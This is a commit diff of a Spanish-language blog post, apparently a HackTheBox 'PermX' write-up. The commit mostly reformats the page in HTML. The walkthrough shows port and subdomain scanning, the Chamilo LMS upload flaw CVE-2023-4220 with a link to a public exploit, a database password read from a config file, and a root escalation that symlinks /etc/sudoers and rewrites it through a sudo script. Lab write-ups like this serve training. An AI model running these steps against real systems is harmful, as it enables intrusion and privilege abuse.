

Before and after one commit to Eduardo99RP/Eduardo99RP.github.io, a Jekyll site: the page built from _posts/2024-07-12-permx.md, in a window 1280 px wide and 1400 px high, scrolled down 14180 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2024-07-12-permx.md
+++ b/_posts/2024-07-12-permx.md
@@ -17,12 +17,17 @@ tags:
 
 
 ### Recocimiento
+<p style="text-align: justify;">
 Esta máquina está clasificada como fácil y no puedo decir lo contrario. Lo primero que se hace es un escaneo usando nmap con la siguiente línea de código:
+</p>
+
 
 ```sh
 nmap -p- --min-rate 5000 -n --open -vvv -sS -oG allPorts 10.10.11.23
 ```
+<p style="text-align: justify;">
 EEl escaneo nos arrojó que están abiertos dos puertos, el 22 y el 80, algo muy común para un servidor que aloja un servicio web. Para ello, vamos a escanear de manera exhaustiva los puertos con el siguiente comando:
+</p>
 
 ```sh
 nmap -sCV -p22,80 -oN Ports 10.10.11.23
@@ -64,7 +69,10 @@ Una vez guardados los cambios, vamos a nuestro navegador y analizamos la página
 <img src="/assets/images/MaquinaPermx/pagina1.png">
 </p>
 
+<p style="text-align: justify;">
 Navegando en la página, no encontramos nada en lo cual se pueda comenzar un ataque, así que ahora procedemos a usar la herramienta `ffuf` para encontrar posibles páginas ocultas.
+</p>
+
 
 ```bash
 ❯ ffuf -u http://permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
@@ -99,15 +107,21 @@ server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration:
 :: Progress: [20476/20476] :: Job [1/1] :: 162 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
 
 ```
+<p style="text-align: justify;">
 
 Con el escaneo encontramos diversas páginas:
 
-- http://permx.htb/css/
-- http://permx.htb/img/
-- http://permx.htb/js/
-- http://permx.htb/lib/
+<ul>
+  <li><a href="http://permx.htb/css/" target="_blank">http://permx.htb/css/</a></li>
+  <li><a href="http://permx.htb/img/" target="_blank">http://permx.htb/img/</a></li>
+  <li><a href="http://permx.htb/js/" target="_blank">http://permx.htb/js/</a></li>
+  <li><a href="http://permx.htb/lib/" target="_blank">http://permx.htb/lib/</a></li>
+</ul>
 
-Pero hay un problema: en ninguna de estas se encontró nada interesante, así que procedemos a buscar alguna página asociada o subdominio, es decir, host distinto que un usuario tenga que iniciar sesión. Para ello, vamos a usar fuzz de otra manera.
+
+Pero hay un problema, en ninguna de estas se encontró nada interesante, así que procedemos a buscar alguna página asociada o subdominio, es decir, host distinto que un usuario tenga que iniciar sesión. Para ello, vamos a usar fuzz de otra manera.
+
+</p>
 
 ```sh
 ❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fc 302
@@ -138,18 +152,26 @@ www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Dur
 lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 270ms]
 [WARN] Caught keyboard interrupt (Ctrl-C)
 ```
+<p style="text-align: justify;">
+
 Como podemos ver, encontramos dos subdominios, los cuales son:
 
-- http://www.permx.htb/
-- http://lms.permx.htb/
+<ul>
+  <li><a href="http://www.permx.htb/" target="_blank">http://www.permx.htb/</a></li>
+  <li><a href="http://lms.permx.htb/" target="_blank">http://lms.permx.htb/</a></li>
+</ul>
 
 De estos subdominios, el que realmente es interesante es el segundo (lms.permx.htb), en este podemos encontrar el panel de inicio de sesión el cual usa Chamilo:
+</p>
 
 <p align="center">
 <img src="/assets/images/MaquinaPermx/pagina2.png">
 </p>
 
+<p style="text-align: justify;">
 En esta página podemos encontrar un inicio de sesión. Probamos con credenciales típicas como admin - admin, pero no tiene fallas de ese estilo. Así como en la página anterior vimos que tenía páginas ocultas, procedemos a buscar si esta cuenta con páginas ocultas:
+</p>
+
 
 ```sh
 ❯ ffuf -u http://lms.permx.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
@@ -192,47 +214,63 @@ vendor                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration:
 web                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 161ms]
 :: Progress: [20476/20476] :: Job [1/1] :: 47 req/sec :: Duration: [0:01:38] :: Errors: 0 ::
 ```
+<p style="text-align: justify;">
+
 De la misma manera que en la página anterior, encontramos las siguientes páginas:
 
-- http://lms.permx.htb/LICENSE/
-- http://lms.permx.htb/app/
-- http://lms.permx.htb/bin/
-- http://lms.permx.htb/certificates/
-- http://lms.permx.htb/documentation/
-- http://lms.permx.htb/favicon.ico/
-- http://lms.permx.htb/main/
-- http://lms.permx.htb/plugin/
-- http://lms.permx.htb/robots.txt/
-- http://lms.permx.htb/src/
-- http://lms.permx.htb/vendor/
-- http://lms.permx.htb/web/
+<ul>
+    <li><a href="http://lms.permx.htb/LICENSE/" target="_blank">http://lms.permx.htb/LICENSE/</a></li>
+    <li><a href="http://lms.permx.htb/app/" target="_blank">http://lms.permx.htb/app/</a></li>
+    <li><a href="http://lms.permx.htb/bin/" target="_blank">http://lms.permx.htb/bin/</a></li>
+    <li><a href="http://lms.permx.htb/certificates/" target="_blank">http://lms.permx.htb/certificates/</a></li>
+    <li><a href="http://lms.permx.htb/documentation/" target="_blank">http://lms.permx.htb/documentation/</a></li>
+    <li><a href="http://lms.permx.htb/favicon.ico/" target="_blank">http://lms.permx.htb/favicon.ico/</a></li>
+    <li><a href="http://lms.permx.htb/main/" target="_blank">http://lms.permx.htb/main/</a></li>
+    <li><a href="http://lms.permx.htb/plugin/" target="_blank">http://lms.permx.htb/plugin/</a></li>
+    <li><a href="http://lms.permx.htb/robots.txt/" target="_blank">http://lms.permx.htb/robots.txt/</a></li>
+    <li><a href="http://lms.permx.htb/src/" target="_blank">http://lms.permx.htb/src/</a></li>
+    <li><a href="http://lms.permx.htb/vendor/" target="_blank">http://lms.permx.htb/vendor/</a></li>
+    <li><a href="http://lms.permx.htb/web/" target="_blank">http://lms.permx.htb/web/</a></li>
+</ul>
 
-Si bien encontramos una variedad de enlaces, ninguno de estos es realmente relevante, ya que, a pesar de encontrar información, esta no es de utilidad ni muestra alguna brecha de seguridad aparente. Así que nos queda investigar si la versión de Chamilo que se utilizó en la página web tiene alguna vulnerabilidad. Para ello, podemos verla en el enlace http://lms.permx.htb/documentation/, el cual nos muestra la siguiente información:
-
+Si bien encontramos una variedad de enlaces, ninguno de estos es realmente relevante, ya que, a pesar de encontrar información, esta no es de utilidad ni muestra alguna brecha de seguridad aparente. Así que nos queda investigar si la versión de Chamilo que se utilizó en la página web tiene alguna vulnerabilidad. Para ello, podemos verla en el enlace
+        <a href="http://lms.permx.htb/documentation/" target="_blank">http://lms.permx.htb/documentation/</a>, el cual nos muestra la siguiente información:
+    </p>
 
 <p align="center">
 <img src="/assets/images/MaquinaPermx/pagina3.png">
 </p>
 
-Podemos observar que la versión utilizada es Chamilo 1.11. Después de una investigación, hallamos que sí tiene una vulnerabilidad, la cual se puede encontrar como:
-- [CVE-2023-4220](https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949)
-
-Esta vulnerabilidad nos dice que:
-
-- Descripción de la vulnerabilidad
-
-    La carga no restringida de archivos en la funcionalidad de carga de archivos grandes en ```/main/inc/lib/javascript/bigupload/inc/bigUpload.php``` en Chamilo LMS <= v1.11.24 permite a atacantes no autenticados realizar ataques de cross-site scripting almacenados y obtener la ejecución remota de código a través de la carga de web shell.
-- Descripción del riesgo
-
-    Existe el riesgo de que un atacante remoto no autenticado pueda comprometer completamente el servidor para robar información confidencial, instalar ransomware o pivotar a la red interna.
-- Recomendación
-
-    Se recomienda actualizar el software afectado a la última versión, que mitiga esta vulnerabilidad.
-
-Referencia: [Chamilo LMS <= 1.11.24 - Remote Code Execution ](https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949)
+<p style="text-align: justify;">
+    Podemos observar que la versión utilizada es Chamilo 1.11. Después de una investigación, hallamos que sí tiene una vulnerabilidad, la cual se puede encontrar como:
+</p>
+<ul>
+        <li><a href="https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949" target="_blank">CVE-2023-4220</a></li>
+</ul>
+<p style="text-align: justify;">
+        Esta vulnerabilidad nos dice que:
+</p>
+<ul style="text-align: justify;">
+    <li><strong>Descripción de la vulnerabilidad</strong>
+        <p>La carga no restringida de archivos en la funcionalidad de carga de archivos grandes en <code>/main/inc/lib/javascript/bigupload/inc/bigUpload.php</code> en Chamilo LMS <= v1.11.24 permite a atacantes no autenticados realizar ataques de cross-site scripting almacenados y obtener la ejecución remota de código a través de la carga de web shell.</p>
+        </li>
+    <li><strong>Descripción del riesgo</strong>
+        <p>Existe el riesgo de que un atacante remoto no autenticado pueda comprometer completamente el servidor para robar información confidencial, instalar ransomware o pivotar a la red interna.
+    </p>
+    </li>
+        <li><strong>Recomendación</strong>
+            <p>Se recomienda actualizar el software afectado a la última versión, que mitiga esta vulnerabilidad.</p>
+        </li>
+    </ul>
+<p style="text-align: justify;">
+        Referencia: <a href="https://pentest-tools.com/vulnerabilities-exploits/chamilo-lms-11124-remote-code-execution_22949" target="_blank">Chamilo LMS <= 1.11.24 - Remote Code Execution</a>
+    </p>
 
 ### Explotacion
+<p style="text-align: justify;">
 Una vez entendida la vulnerabilidad, procedemos a buscar un exploit o, en su caso, programarlo. Para fines prácticos, se utiliza el siguiente exploit:
+    </p>
+
 -   [Chamilo LMS Unauthenticated Big Upload File RCE PoC](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
 
 Clonamos el exploit y accedemos a la carpeta, luego procedemos a ejecutar el siguiente comando:
@@ -307,7 +345,10 @@ $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
 // Enable access to database management for platform admins.
 $_configuration['db_manager_enabled'] = false;
 ```
+<p style="text-align: justify;">
+
 En este caso, podemos encontrar una contraseña. Esta contraseña, en primeras instancias, es para iniciar sesión en la base de datos, pero podemos probar si esta contraseña funciona para conectarnos al usuario encontrado. Este usuario lo encontramos al acceder a la carpeta /home/. Ahí podemos ver ese usuario, así que procederemos a intentar iniciar sesión por SSH.
+</p>
 
 ```sh
 www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$ cd /home
@@ -373,38 +414,56 @@ Procedimiento para elevar previlegios
 ```bash
 ln -s /etc/sudoers symlink
 ```
-- **ln**: Comando para crear enlaces.
-- **-s**: Indica que se creará un enlace simbólico (o "symlink").
-- **/etc/sudoers**: Archivo original al que se creará el enlace.
-- **symlink***: Nombre del nuevo enlace simbólico.
-Este comando crea un enlace simbólico llamado symlink que apunta al archivo /etc/sudoers. Los enlaces simbólicos son como atajos que apuntan a otro archivo o directorio.
+<ul style="text-align: justify;">
+    <li><strong>ln</strong>: Comando para crear enlaces.</li>
+    <li><strong>-s</strong>: Indica que se creará un enlace simbólico (o "symlink").</li>
+    <li><strong>/etc/sudoers</strong>: Archivo original al que se creará el enlace.</li>
+    <li><strong>symlink</strong>: Nombre del nuevo enlace simbólico.</li>
+</ul>
+<p style="text-align: justify;">
+    Este comando crea un enlace simbólico llamado symlink que apunta al archivo /etc/sudoers. Los enlaces simbólicos son como atajos que apuntan a otro archivo o directorio.
+</p>
+
 
 2- Listar archivos con detalles:
 ```bash
 ls -l
 ```
-- **ls**: Comando para listar archivos y directorios.
-- **-l**: Muestra una lista detallada de archivos con permisos, número de enlaces, propietario, grupo, tamaño, fecha de modificación y nombre del archivo.
-Este comando mostrará una lista de archivos en el directorio actual, incluida información detallada sobre cada archivo. Entre ellos, se mostrará el enlace simbólico symlink.
+<ul style="text-align: justify;">
+    <li><strong>ls</strong>: Comando para listar archivos y directorios.<br>
+        <p>Este comando mostrará una lista de archivos en el directorio actual, incluida información detallada sobre cada archivo. Entre ellos, se mostrará el enlace simbólico symlink.</p>
+    </li>
+    <li><strong>-l</strong>: Muestra una lista detallada de archivos con permisos, número de enlaces, propietario, grupo, tamaño, fecha de modificación y nombre del archivo.</li>
+</ul>
+
 
 3- Ejecutar un script con privilegios:
 ```bash
 sudo /opt/act.sh mtz rwx /home/mtz/symlink
 ```
-- **sudo**: Ejecuta un comando con privilegios de superusuario (root).
-- **/opt/act.sh**: Ruta al script que se va a ejecutar.
-- **mtz rwx /home/mtz/symlink**: Argumentos pasados al script.
-Este comando ejecuta el script /opt/act.sh con privilegios elevados, pasando los argumentos mtz, rwx y /home/mtz/symlink. La naturaleza de estos argumentos y el propósito del script dependerá de su contenido.
+<ul style="text-align: justify;">
+    <li><strong>sudo</strong>: Ejecuta un comando con privilegios de superusuario (root).</li>
+    <li><strong>/opt/act.sh</strong>: Ruta al script que se va a ejecutar.</li>
+    <li><strong>mtz rwx /home/mtz/symlink</strong>: Argumentos pasados al script.</li>
+</ul>
+<p style="text-align: justify;">
+    Este comando ejecuta el script /opt/act.sh con privilegios elevados, pasando los argumentos mtz, rwx y /home/mtz/symlink. La naturaleza de estos argumentos y el propósito del script dependerá de su contenido.
+</p>
+
 
 4- Editar un archivo con nano:
 ```bash
 nano /home/mtz/symlink
 ```
-- **nano**: Editor de texto en la línea de comandos.
-- **/home/mtz/symlink**: Archivo que se va a editar.
-Este comando abre el archivo /home/mtz/symlink en el editor de texto nano. Como symlink es un enlace simbólico que apunta a /etc/sudoers, estarás editando el archivo real /etc/sudoers.
+<ul style="text-align: justify;">
+    <li><strong>nano</strong>: Editor de texto en la línea de comandos.</li>
+    <li><strong>/home/mtz/symlink</strong>: Archivo que se va a editar.</li>
+</ul>
+<p style="text-align: justify;">
+    Este comando abre el archivo /home/mtz/symlink en el editor de texto nano. Como symlink es un enlace simbólico que apunta a /etc/sudoers, estarás editando el archivo real /etc/sudoers.
+</p>
 <p align="center">
-<img src="/assets/images/MaquinaPermx/pagina6.png">
+    <img src="/assets/images/MaquinaPermx/pagina6.png" alt="Ejemplo de imagen">
 </p>
 
 5- Cambiar a superusuario:
@@ -412,6 +471,10 @@ Este comando abre el archivo /home/mtz/symlink en el editor de texto nano. Como
 sudo su
 ```
 
-- **sudo**: Ejecuta un comando con privilegios de superusuario (root).
-- **su**: Cambia de usuario.
-Este comando te cambia al usuario root, dándote acceso completo a todo el sistema
+<ul style="text-align: justify;">
+    <li><strong>sudo</strong>: Ejecuta un comando con privilegios de superusuario (root).</li>
+    <li><strong>su</strong>: Cambia de usuario.</li>
+</ul>
+<p style="text-align: justify;">
+    Este comando te cambia al usuario root, dándote acceso completo a todo el sistema.
+</p>
````
Also changed, not shown: _posts/2024-06-20-ArchLinux.md (+15 -0 lines), assets/images/ArchLinux/EFFI.png (added), assets/images/ArchLinux/bienvenida.png (added), 3 other files.
